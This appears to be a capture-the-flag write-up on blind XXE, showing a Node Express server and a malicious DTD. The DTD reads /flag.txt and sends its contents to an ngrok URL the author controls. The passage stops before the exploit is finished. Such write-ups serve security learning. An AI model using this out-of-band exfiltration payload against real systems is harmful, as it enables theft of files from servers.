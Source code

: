 Here is a place to look for some advanced XXE exploits:

https://gist.github.com/staaldraad/01415b990939494879b4

There are no explantions there so you'll want to read here to try to understand them:

https://portswigger.net/web-security/xxe/blind

For the exploit I wanted to try, I needed to host a malicous DTD on a server I control.

Personally, I use a nodejs Express local web server on my laptop and then expose it to the Internet using **ngrok**.

You can go to:

https://ngrok.com

and get a free account and learn more about it.

This writeup alone won't be enough to teach you about nodejs and Express but you can google for more information.

Roughly, I have a folder with these files in it:

* run.js
* mal.dtd


[run.js]
```
let express = require('express');
let app = express();

app.get('/mal.dtd', function(req, res) {
    res.sendFile(__dirname + '/mal.dtd')
});

let port = 5050;
let server = app.listen(port);
console.log('Local server running on port: ' + port);
```

[mal.dtd]
```
<!ENTITY % data SYSTEM "file:///flag.txt">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://55619db0af68.ngrok.io/mal?%data;'>">
```

You can read more at the above XXE links but the **exfil** entity is designed to make a GET request to my ngrok URL (more on that later) with the contents of `/flag.txt` as part of the query string.

I can run this with:

```
node run.js
```

and it'll start waiting for incoming HTTP requests on port 5050 for the `mal.dtd` resource.

However, this is just on my laptop and, so far, is not exposed to the Internet.
